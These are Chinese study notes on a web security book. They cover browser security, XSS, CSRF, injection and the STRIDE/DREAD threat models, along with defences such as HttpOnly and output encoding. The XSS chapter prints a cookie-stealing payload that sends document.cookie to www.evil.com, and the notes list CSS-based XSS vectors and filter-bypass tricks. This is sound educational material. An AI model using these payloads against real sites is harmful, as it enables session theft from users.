

!TOC

#第零篇 总览

## 客户端脚本安全 
1. 浏览器安全 

   同源策略（Same Origin Policy）防止了跨域读写某些资源。 
浏览器提供了浏览器沙箱，使进程在一个相对独立的空间运行，能在一定程度上保护浏览器安全。 

2. 跨站脚本攻击 

   跨站脚本攻击主要是注入到网站内容中，授权用户访问内容时执行一段恶意代码，从而获取用户的私密信息或者进行破坏。通常叫做XSS攻击，是针对动态网站的攻击。 

3. 跨站点请求伪造 

   CSRF，指的是伪造出一个请求，诱使授权用户访问，以授权用户的身份去执行请求，从而达到对授权用户信息的读取、攻击等。 

4. 点击劫持 
Click jacking，是指将恶意代码隐藏在看似无害的内容后者按钮之下，诱导用户访问的一种手段。 

5. Html5安全

   1）HTML引入了很多新的标签，一些XSS Filter可能并没有覆盖这些新增的标签和功能。比如video、audio、iframe的sandbox。此外使用canvas可以在浏览器环境中实现对验证码的在线破解，大大降低了攻击的门槛。

   2）跨域请求的Orgin Header和Access-Control-Allow-Origin的设置。postMessage的引入，使XSS PayLoad变得更加的灵活。

##服务端安全 
1. 注入攻击 

   注入攻击是一种普遍的利用数据库SQL语句进行攻击的方式。使用用户提交的数据拼接数据库操作字符串，如果这些字符串中包含一些特殊字符就有可能查询到数据库关键信息。 

2. 文件上传漏洞 

   通常的一个问题就是对上传文件的格式控制不严格，并且文件存放的路径可以通过Web路径直接进行访问；另一种方式，就是文件路径是通过表单的方式提交的，可以使用一个特殊字符“\0”截断文件路径，从而实现对脚本文件的上传。 

3. 认证与会话管理 

   用户的登录状态一般是进过认证之后保存在服务端的，与服务器端的一系列交互即会话。一般对会话的管理。。。

4. 访问控制 

   对于系统中不同的用户具有不同的权限，对这些权限进行控制即访问控制。如果访问控制不严就容易形成漏洞被利用。 

5. 加密算法与随机数 

   系统中对数据进行加密使用的加密算法和随机数生成算法的安全性和健壮性都直接关系到整个系统的安全性。对称加密、非对称加密的密钥的安全性，随机数算法的随机性都是要考虑的问题。

6. Web框架安全
   一些经典的使用率较高的Web框架如：Spring、Struts、Hibernate本身会在整个执行体系中有一些安全漏洞。比如前一阵的Struts2的命令执行漏洞，就是因为在OGNL中可以执行JAVA静态方法造成的。 

7. 应用层拒绝服务攻击 

   DOS，这种攻击是以耗尽服务器资源为目的攻击。DDOS分布式 拒绝服务攻击，是DOS的加强版。防范拒绝服务攻击要从访问入口处进行，限制来自统一IP的访问频率或者就是最大化提升系统的负载能力。 

8. PHP安全和Web服务器配置安全 

   针对与PHP本身的一些API的特点，可以在代码层面进行安全控制。比如，对数据库SQL相关的操作，要对用户输入的参数进行mysql_real_esape等。此外，对于Web Server如Apache http server，对其magic_quote,GLOBAL等配置要权衡关闭和开启是否会对系统的安全造成威胁。


#第一篇 世界安全观
---
##第1章 作者吹逼

1. 安全三要素是安全的基本组成元素，分别是**机密性**（Confidentiality）、**完整性**（Integrity）、**可用性**（Availability）。

   * **机密性**要求被保护的数据不能泄露，加密是实现机密性要求的常见手段。
   * **完整性**则要求保护数据内容是完整、没有被篡改的。常见的保证手段是数字签名。
   * **可用性**要求保护资源是“随需而得”。Dos就破坏了这个规则。

2. 互联网的安全的**核心问题**，是**数据安全**的问题。

3. 微软提出了一种威胁建模方法，叫做STRIDE模型。

   威胁 | 定义 | 对应的安全属性
:----------- | :-----------  | :-----------
Spoofing（伪装）| 冒充他人身份 | 认证 
Tampering（篡改）| 修改数据或代码 | 完整性 
Repudiation（抵赖）| 否认做的的事情 | 不可抵赖性 
Information Disclosure（信息泄露）| 机密信息泄露 | 机密性 
Denial of Service（拒绝服务）| 拒绝服务 | 可用性 
Elevation of Privilege（提升权限）| 未经授权获得许可 | 授权 

4. 同时，微软还提出了一个风险衡量模型DREAD。

   等级 | 高（3） | 中（2） | 低（1）
:- | :- | :-
Damage Potential | 获得完全验证权限；执行管理员操作；非法上传文件 | 泄露敏感信息 | 泄露其他信息
Reproductibility | 攻击者可以随意再次攻击 | 攻击者可以重复攻击，但是有限制 | 攻击者很难重复攻击过程
Exploitability | 	初学者在短期内可以掌握攻击方法 | 熟练的攻击者才能完成这次攻击 | 泄露利用条件非常苛刻
Affected users| 所有用户，默认配置，关键用户 | 部分用户，非默认配置 | 极少用用户，匿名用户
Discoverability | 漏洞很显眼，攻击条件很容易获得 | 在私有区域，部分人能看到，需要深入挖掘漏洞 | 发现该漏洞及其空难

5. 作者自己提出的白帽子法则--Secure By Default原则

   * 黑名单、白名单原则
   * 最小权责原则
   * 纵深防御原则，指需要全面防御
   * 数据和代码分离原则，指漏洞的成因
   * 不可预测原则，指攻击方式的不可预测 

#第二篇 客户端脚本安全
---
##第2章 浏览器安全

1. 同源策略（Same Origin Policy）是一种**约定**，它是浏览器最核心也是最基本的安全功能。**浏览器的同源策略，限制了来自不同源的“document”或脚本，对当前“document”读取或设置某些属性**。影响源的因素：**host（域名或者IP地址），子域名，端口，协议**。

   值得注意的是，对于当前页面来说，页面存放JavaScript文件的域并不重要，重要的是加载Javascript的页面所在的域是什么，通过这样一段代码描述。

   ```
 <script src=http://b.com/b.js></script>
```


   这段代码是a.com页面上加载了b.com上的b.js，但是b.js是运行在a.com页面上的，因为对于当前打开的页面（a.com）来说，b.js的Origin就应该是a.com，而不是b.com。

2. XMLHttpRequest受到同源策略的约束，不能够跨域访问资源，在进行AJAX开发时要注意这有点。技术发中中，W3C委员会制定出了XMLHttpRequest跨域访问标准，通过目标域返回的HTTP头来授权是否允许跨域访问。

3. 在网页中插入一段恶意代码，利用浏览器漏洞执行任意代码的攻击方式，就做**挂马**。

##第3章 跨站脚本攻击（Cross Site Script，XSS）

1. 跨站脚本攻击，英文全称为Cross Site Script，与层叠样式表（Cascading Style Sheet，CSS）重复了，所以使用了XSS。XSS攻击，一般是指黑客通过各种方式篡改了网页，插入了恶意代码，用户在浏览网页时，控制用户浏览器的一种攻击。一开的时候，这种攻击的的演示案例是“跨域”的，所以叫做“跨站脚本”，现在，前端技术的发展使得跨域是否已经不重要，由于历史的原因，还是叫做XSS。

2. XSS根据效果分成三类：

   * 反射型XSS：只是简单的用户输入的数据**反射**给浏览器，也就是说，黑客往往需要诱使用户点击一个恶意连接，才可能攻击成功，反射型XSS也叫做**非持久型XSS**（Non-Persisent XSS）。
   * 存储型XSS：它会把用户输入的数据**存储**在服务器上，具有非常高的稳定性。一个常见场景，黑客写一篇含有恶意代码的博客，文章发表后，所有访问这篇文章的用户都会执行这些恶意代码。这类XSS也叫做**持久型XSS**（Persisent XSS）。
   * DOM Based XSS：这种XSS不是按照**数据是否保存在服务器上**区分的，按照原理，DOM Based XSS应该算是反射型XSS，但是它的形成比较特殊，安全专家专门提出了将它单独分为一类。
 
 3. 一个简单的XSS Payload
 
    一个最常见的XSS Payload就是读取浏览器的Cookie对象，从而发起**Cookie劫持**攻击。攻击者首先加载一个远程脚本，这样可以有效的避免在URL的参数中写入大量的Javascript。
 
    ```
  http://www.a.com/test.html?abc="><script src=http://www.evil.com/evil.js></script>
 ```
    真正的攻击脚本写在这个远程脚本evil.js中。
 
    ```
  var img = document.createElement("img");
  img.src = "http://www.evil.com/log?" + escape(document.cookie);
  document.body.appendChild(img);
 ```
   这段代码在页面中插入了一张不可见的图片，同时把cookie对象当做参数发向了攻击者的服务器。这样就构造了最简单的一个窃取cookie的XSS Payload。

4. XSS都能干什么

   * 构造Get和Post请求直接调取系统的功能。
   * XSS钓鱼。
   * 识别用户浏览器。
   * 识别用户安装的软件。
   * CSS History Hack，通过style的visited属性，因为如果用户访问过某个页面，那么这个连接的颜色会不一样。
   * 获取用户的真实IP。

5. XSS攻击平台：Attack API，BeEF，XSS-Proxy，目前国内网上有不少在线攻击平台，可以自行百度使用。

6. XSS蠕虫，书中给出了MySpace.com和百度空间的XSS蠕虫例子。

7. 调试JavaScript

   * Firebug，FireFox中超好用。
   * IE 8 Develper Tools，这个很老了，新版的IE都自带了JavaScript的调试器。
   * Fiddler，一个本地代理服务器，很好用，与之类似的还有Burp Suite。
   * HttpWatch，嵌入在浏览器中，能够监测所有浏览器请求。
 
8. XSS构造技巧

   * 利用字符编码，如Unicode组合字符，在百度搜索中“%c1\”就是一个Unicdoe字符，转义符号“\”被绕过了。
   * 绕过长度限制：
     * 利用时间（Event）来缩短需要的字节数。
     * 利用location.hash来访Payload，然后eval(location.hash)。因为location.hash也是有长度的，所有如果需要的Payload特别上，可以在loaction.hash里放入远程加载代码的Payload。
     * 在一些环境中，可以使用注释来绕过长度限制。
   * 使用<base>标签，它的作用是定义页面上的所有使用相对路径标签的host地址。如一张地址为 http://www.google.com/a/b/c/d/e.png 的图片用下面的代码使用。<base>标签可以使用在页面的任何地方，并作用于该标签之后的所有标签。如果攻击者控制了这个标签，就可以在远程服务器上控制图片、连接和脚本，所以这是一个非常危险的标签，如果要做安全方案，必须得过滤这个标签。
 
     ```
<body>
<base href="http://www.google.com"/>

</body>
   ```
   * window.name的妙用：对当前窗口的window.name对象赋值，没有特殊字符的限制。因为window对象是浏览器窗体，而不是document对象，并且很多时候window对象不受同源策略的限制。如当www.a.com一个页面test.html上修改了window.name的值后，页面跳转到www.b.com站点的一个页面test.html，会发现window.name的值并没有改变。利用这一点，就可以实现跨域攻击。

9. 容易被忽略的角落 Flash XSS

   在Flash中使用的ActionScript脚本语言，一个基本的XSS可以这样写。

   ```
getURL("javascript:alert(document.coolie)")
```
如果将含有这段代码的Flash放入网页中，那么就能获得用户的cookie。所以在做XSS Filter时，需要把**\<embed\> \<object\>**等标签过滤。如果一定要使用Flash，那么可以将Flash转化为**flv**文件，**flv**是静态文件，不会产生安全威胁。如果是带动态脚本的Flash，可以通过Flash配置参数进行限制，在**\<embed\>**中有属性**allowScriptAccess**，这个参数定义Flash是否可以和页面进行交互，他有三个可选值：

    * always，对交互不做任何限制。
    * sameDomain，只可以和本域的页面交互，默认值。
    * never，绝对禁止交互。
 
   还有一个参数**allNetWorking**来控制Flash是否能和外部网路进行通讯，他也有三个可选值：

    * all，允许使用所有网络，默认值。
    * internel，Flash不能与浏览器通信如navigateToURL，但是可以调用其他的API。（其他的API指什么？）
    * none，禁止任何通信。

10. **XSS防御**

    1. **HttpOnly** ：HttpOnly最早是由微软提出，在IE6中实现，现在已经成为一种通用的标准。使用了这个参数，浏览器将禁止页面的JavaScript访问带有HttpOnly的Cookie。这样，即使已经被XSS攻击成功，Cookie也不能够被黑客拿走。HttpOnly的**标记时机**，一个Cookie的使用过程。
       1. 浏览器向服务器发起请求，这时候并没有Coolie。
       2. 服务器返回时发送 Set-Cookie 头，向客户端写入Cookie。在这个时机，服务器将HttpOnly写入Cookie，服务器可能向客户端发送多个Cookie，HttpOnly可以选择性的标记在某些Cookie上。
       3. 在该Cookie到期前，浏览器访问该域下所有的页面，都将发送该Cookie。

    2. **输入检查** ：最常用的方法，转义或者过滤。
    3. **输出检查** ：最常用的方法，转义。
    4. 正确的防御XSS，要根治XSS问题，要针对发生的场景来做相应的处理。作者给出了以下几种方式

       * 在HTML标签中输出，使用HtmlEncode防御。
     
          ```
    <div>$var</div>
    XSS为
    <div><scirpt>alert(/xss/)</script><div>
    ```
       * 在HTML属性中输出，使用HtmlEncode防御。
   
          ```
    <div id="abc" name="$var"></div>
    XSS为
    <div id="abc" name=""><script>alert(/xss/)</script><""></div>
    ```
       * 在<script\>标签中输出，使用JavascriptEncode防御。
 
          ```
    <script> var x = "$var"</script>;
    XSS为
    <script> var x = ""; alert(/xss/); //";
    ```
       * 在事件中输出，使用JavascriptEncode防御。
 
          ```
    <a href=# onclick="funcA('$var')">test</a>
    XSS为
    <a href=# onclick="funcA('');alert(/xss/);//')">test</a>
    ```
       * 在CSS中输出，使用OWASP ESAPI中的EncodeForCSS防御。使用sytle、style attribute形成XSS的方式非常多，给出几种例子。
 
          ```
    <style>@import'http://hacker.com/xss.css';</style>
    <style>Body{-moz-binding:url("http://hacker.com/xssmoz.xml#xss")}</style>
    <xss style="behavior:url(xss.htc);">
    <style>li {list-style-image: url("javascript:alert('XSS')");}</style><ul><li>XSS
    <div style="vackground-image: url(javascript:alert('XSS'))">
    <div style="width: expression(alert('XSS'));">
    ```
       * 在地址中输出，使用URLEncode防御。当地址被控制了以后，使用一些特殊的伪协议可以导致脚本执行，如**dataURI**伪协议。
 
    5. 处理富文本，重要的时要区分哪些是用户真正的输入，哪些是恶意XSS代码。在处理富文本的时候，首先还是回到**输入检查**上，使用**HtmlParser**可以解析出HTML代码的标签，标签属性和时间，然后过滤这些，**事件**应该被严格禁止，有很多危险标签，如iframe、scirpt、base、form等，也是应该禁止的。在标签的选择上，应该使用**白名单**，而不应该使用黑名单，标记哪些标签是安全的才是正确的方法。 

    6. 防御DOM Based XSS，如例子
      
         ```
      <script>
      var x = "$var";
      document.write("<a href='" + x +"'> test </a>");
      </script>
      ```
      在代码上架设为了保护**$var**，服务器使用了javascriptEncode对$var进行了编码，但是当使用document.write时，仍然可以产生XSS，因为在使用document.write时，浏览器重新渲染页面，对$var进行了解码。要解决这个问题，在document.write的时候，做一次判断，如果输入到事件或脚本中，做一个javascriptEncode，如果输入到HTML内容或者属性中，进行一个HTMLEncode。有一幅图说明。
      
      按着上图的规则去做编码设置，能够触发DOM Based XSS的地方很多，从JavaScript输出到HTML页面的必经之路。
       * document.write()
       * document.writeln()
       * xxx.innerHTML
       * xxx.outerHTML
       * document.attachEvent()
       * window.attachEvent()
       * document.location.replace()
       * document.location.assing()
 
       除了这些外，还有几个地方可能会成为DOM Based XSS的输入点
       * 页面中所有的input输入框
       * window.location
       * window.name
       * document.referrer
       * document.cookie
       * localstorage
       * XMLHttpRequest返回的数据
       
##第4章 跨站点请求伪造（Cross Site Request Forgery，CSRF）
1. 什么是**CSRF**

   诱使用户访问一个链接，使用用户身份在第三方站点进行一次或多次操作，达到操作用户在其他站点的操作模拟，如删除博客，银行转账等等，叫做**跨站点请求伪造**。
   
2. CSRF进阶

   1. 浏览器的Coolie策略
   
      攻击者能够在第三方站点操作用户原本网站的内容，是因为用户的浏览器中存储了原站点的Cookie，用户产生操作请求时，自动发送了这些Cookie，导致了攻击的形成。
      
      浏览器所持有的Cookie分为两种，一种是**Session Cookie**，称为**临时Cookie**，一种是**Third-party Cookie**，称为**本地Cookie**。两者的区别在于，本地Cookie是服务器设置了过期（Expire）时间，只有超过了过期时间，Cookie才失效，这种Cookie保存在本地；而临时Cookie没有过期时间，浏览器关闭后，就失效了。在浏览网站过程中，如果一个网站给用户设置了Session Cookie，则在浏览器进程生命周期内，即使新打开Tab页，这个Cookie也是存在的，它保存在浏览器的进程内存空间中。
      
      在主流浏览器中，默认拦截本地Cookie的有：IE6、IE7、IE8、Safari；不会拦截的有：Firefox2、Firefox3、Opera、Chrome、Android等。
      
   2. P3P头的副作用
   
      尽管有一些CSRF攻击实施起来不需要验证，即不需要Cookie，但是实际上大部分敏感、重要的信息还是躲藏在认证之后，所以拦截Cookie的浏览器设定，降低了CSRF的威胁，但是有**P3P头**之后，就不一样了。**P3P Header**是W3C定制的一项关于隐私的标准，全称是**The Platform for Privacy Preferences**,P3P头主要用于类似广告等需要跨域访问的页面，因为如果HTTP头中包含了P3P头，那么浏览器就允许发送本地Cookie。
      
      因为P3P头被目前的网站中广泛使用，所以不能依靠浏览器策略来防御CSRF。
      
   3. 很多人认为CSRF是由Get请求造成的，把Get请求全部替换成Post请求就可以防御CSRF。但实际上有很多种方法来构造Post请求，比如最简单的生成一张表单，然后使用Javascript自动提交。
   
   4. Flash CSRF，在以前的版本中，Flash发送网络请求可以携带本地Cookie，但是在IE8以后就不可以了。
   
   5. CSRF Worm，
 


   
#参考文献
---